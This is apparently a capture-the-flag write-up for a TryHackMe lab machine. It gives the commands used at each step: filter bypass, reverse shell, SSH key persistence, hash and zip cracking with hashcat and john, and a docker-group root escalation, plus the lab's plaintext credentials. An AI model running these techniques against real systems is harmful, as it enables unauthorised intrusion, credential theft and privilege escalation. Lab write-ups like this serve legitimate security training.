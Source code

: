 #docker 

https://tryhackme.com/r/room/chillhack

---
#### Nmap
![[Screenshot_2024-05-29_20-35-55.png]]

I downloaded the ftp content with a new spell:
```shell
wget -r ftp://anonymous@10.10.68.205
```

It gave me a `note.txt` containing:
```text
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

#### Enumeration
![[Screenshot_2024-05-29_20-44-31.png]]

On `/secret` there is a command form but almost everything is blocked except `grep` and `find`

I can bypass the restriction by using `\` before to escape aliases

Interesting file:
```text
/home/apaar/.helpline.sh
```

I created a reverse shell in `/tmp/shell` and I executed it with:
```shell
\sh /tmp/shell
```

And here I m in

![[Screenshot_2024-05-29_22-35-45.png]]

The bash script execute a command as `apaar` so I executed the script with this command:
```shell
sudo -u apaar /home/apaar/.helpline
```
And I got the flag with
```
cat /home/apaar/local.txt
```

Then I created a new ssh key to get a more stable shell on apaar's account:
```shell
ssh-keygen -t rsa -b 4096 -f ./id_rsa
```

Then I used `nano` through apaar's bash script and added my public key:
```shell
nano /home/apaar/.ssh/authorized_keys
```

And here I m in as Apaar

I went back to `/var/www` and found a `/files` directory I hadn't seen earlier with interresting `mysql` credentials in it: 
```text
root:!@m+her00+@db
```

So I went into the database and dumped the user's table with 2 new credentials with passwod in md5 that I crack with:
```shell
hashcat -a 0 -m 0 -O hash /usr/share/wordlists/rockyou.txt
```
And here are those creds:
```text
Anurodh:masterpassword
Apaar:dontaskdonttell
```

There is another `hacker.php` page containing images, probably steganography, so I created a webserver to retrieve them:
```shell
python3 -m http.server 5050
```

I extracted a `backup.zip` file with 
```shell
steghide extract -sf [image]
```

Then I cracked the zip with john:
```shell
ssh2john backup.zip > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

The archive gave me `source_code.php` containing a base 64 encoded password:
```text
!d0ntKn0wmYp@ssw0rd
```

It is Anurodh's passwod, so I switched user to see what now

Anurodh is in the docker group so I used a GTFObins command to escalate root:
```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

And here I am root